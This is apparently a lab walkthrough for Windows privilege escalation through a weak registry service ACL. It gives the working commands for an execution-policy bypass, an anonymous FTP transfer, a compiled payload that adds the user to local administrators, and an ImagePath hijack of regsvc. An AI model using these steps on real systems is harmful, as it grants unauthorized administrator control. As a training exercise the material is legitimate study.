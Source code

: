 # Service Escalation - Registry

- Using `Get-Acl` we determine that the `NT AUTHORITY\INTERACTIVE` has full control over the `regsvc` registry
- We can add a malicious executable to the registry service
- We can exploit this to either get a reverse shell or add a user

## Step 1: Detection

---

- Open PowerShell prompt and type: **`Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`**

```jsx
C:\Users\user> powershell -ep bypass
PS C:\Users\user> Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

- Notice that the output suggests that user belong to “`NT AUTHORITY\INTERACTIVE`” has “`FullContol`” permission over the registry key.

![get_acl](get_acl.png)

## Step 2: Transfer File

---

- Start FTP server on port 21 and allow `write` access

```jsx
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ pip3 install pyftpdlib

┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ python -m pyftpdlib -p 21 --write
/home/vagrant/.local/lib/python3.11/site-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2023-12-27 23:12:18] concurrency model: async
[I 2023-12-27 23:12:18] masquerade (NAT) address: None
[I 2023-12-27 23:12:18] passive ports: None
[I 2023-12-27 23:12:18] >>> starting FTP server on 0.0.0.0:21, pid=2440229 <<<
```

- Open terminal in the directory where `windows_service.c` is located

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/234bc2e7-af11-462d-b119-18d130c204a1/65ca83da-52b3-4934-8525-232a550de04d/Untitled.png)

- Copy ‘`C:\Users\User\Desktop\Tools\Source\windows_service.c`’ to the attack machine

```jsx
C:\Users\User\Desktop\Tools\Source> ftp 10.18.48.44
User (10.18.48.44:(none)): anonymous
Password:
230 Login successful
ftp> put windows_service.c
```

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/234bc2e7-af11-462d-b119-18d130c204a1/f2285106-4ba4-4f0e-b345-fb7bf17b1b65/Untitled.png)

## Step 3: Exploitation

---

- Open `windows_service.c` in a text editor and replace the command used by the system() function to: **`cmd.exe /k net localgroup administrators user /add`**

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/234bc2e7-af11-462d-b119-18d130c204a1/9b17624f-5b27-4c94-9935-8afd0bbe15a0/Untitled.png)

- Compile the file by typing the following in the command prompt:
  - **`x86_64-w64-mingw32-gcc windows_service.c -o x.exe`**
  - **NOTE: if this is not installed, use '`sudo apt install gcc-mingw-w64`'**

```jsx
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

- Copy the generated file `x.exe`, to the target using the `pytfp` server
- Make sure to use `binary` mode for the transfer process

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/234bc2e7-af11-462d-b119-18d130c204a1/562bea23-0730-408f-b0eb-ef0cf0aa8a0e/Untitled.png)

### Add Executable to `ImagePath` of the Registry Service

- Open command prompt at type:

**`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`**

```jsx
C:\Temp> **reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f**
```

- Start the `registry service` in the command prompt type: **`sc start regsvc`**

```jsx
C:\Temp> sc start regsvc
```

- Verify the `user` account has been added to the `local administrators` group

```jsx
C:\Temp> net localgroup administrators
```

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/234bc2e7-af11-462d-b119-18d130c204a1/a5f4d835-2eaf-4b65-90a6-7856e3449ecd/Untitled.png)
